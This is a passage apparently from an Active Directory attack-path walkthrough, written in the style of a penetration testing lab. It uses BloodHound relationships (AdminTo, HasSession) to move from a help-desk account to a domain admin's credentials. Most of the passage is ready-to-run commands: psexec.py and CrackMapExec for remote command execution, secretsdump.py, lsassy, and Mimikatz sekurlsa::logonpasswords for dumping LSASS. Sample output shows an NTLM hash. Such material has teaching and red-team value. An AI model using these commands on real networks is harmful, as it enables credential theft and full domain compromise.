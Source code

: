 From Linux (as helpdesk-admin):
```bash
# Execute commands:
psexec.py 'corp/helpdesk-admin:CrackedPass@FILE-SERVER01.corp.local'

# Or use CrackMapExec:
crackmapexec smb FILE-SERVER01.corp.local -u 'helpdesk-admin' -p 'CrackedPass' -x whoami

# Dump credentials:
secretsdump.py 'corp/helpdesk-admin:CrackedPass@FILE-SERVER01.corp.local'

# Dump LSASS:
crackmapexec smb FILE-SERVER01.corp.local -u 'helpdesk-admin' -p 'CrackedPass' -M lsassy
```

**✓ Result:** You extract credentials from FILE-SERVER01

---

**Relationship 5: HasSession (DA-ADMIN → FILE-SERVER01)**
- **Type:** Active Session
- **Exploitable:** YES ✓ (combined with previous AdminTo)
- **What it means:** DA-ADMIN user is currently logged into FILE-SERVER01

**This is the key exploitation opportunity!**

```
HasSession

The DA-ADMIN@CORP.LOCAL user has an active session on FILE-SERVER01.CORP.LOCAL.

Abuse Info:
Since you have local admin on FILE-SERVER01 (from previous step), and 
DA-ADMIN is logged in, you can extract DA-ADMIN's credentials from memory.

This is the classic "Pass-the-Hash" or credential theft scenario.

Windows Abuse:
Invoke-Mimikatz -ComputerName FILE-SERVER01 -Command '"sekurlsa::logonpasswords"'

Linux Abuse:
secretsdump.py will extract logged-on user credentials automatically
```

**Exploitation Steps:**

From Windows (continuing from previous step):
```powershell
# Dump credentials on FILE-SERVER01:
Invoke-Mimikatz -ComputerName FILE-SERVER01 -Command '"privilege::debug" "sekurlsa::logonpasswords"'

# Output includes:
Authentication Id : 0 ; 1234567 (00000000:0012d687)
Session           : Interactive from 1
User Name         : DA-Admin
Domain            : CORP
Logon Server      : DC01
Logon Time        : 10/24/2025 2:45:12 PM
SID               : S-1-5-21-123456789-123456789-123456789-1108
    msv :
     [00000003] Primary
     * Username : DA-Admin
     * Domain   : CORP
     * NTLM     : aad3b435b51404eeaad3b435b51404ee:8846f7eaee8fb117ad06bdd830b7586c
    kerberos :
     * Username : DA-Admin
```